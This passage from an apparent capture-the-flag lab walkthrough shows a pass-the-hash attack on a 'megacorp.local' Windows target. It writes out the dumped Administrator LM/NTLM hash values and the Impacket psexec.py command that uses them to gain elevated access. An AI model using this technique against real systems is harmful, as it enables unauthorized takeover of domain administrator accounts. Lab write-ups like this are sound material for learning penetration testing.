 
We can see the default domain Administrator NTLM hash
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image155.png"></div>


We can use this in a *PTH attack* (Pass-the-Hash attack) to gain elevated access to the system.

For this, we can use Impacket's **psexec.py** as follow:
``` code
psexec.py megacorp.local/administrator@10.10.10.30 -hashes <NTML hash>:<NTLM hash>
```
For <**NTML hash**>:<**NTLM hash**> we will use:

-   **NTML hash --> aad3b435b51404eeaad3b435b51404ee**

-   **NTLM hash --> 8a4b77d52b1845bfe949ed1b9643bb18**
```
psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
```
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" class="zoom"><img width="80%"  src="media/image156.png"></div>


An as we can see we gain elevated access to the system
<div style="width:100%; background-color:#252b34;text-align: center;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image157.png"></div>



## &#9656; INCLUDED (Linux)
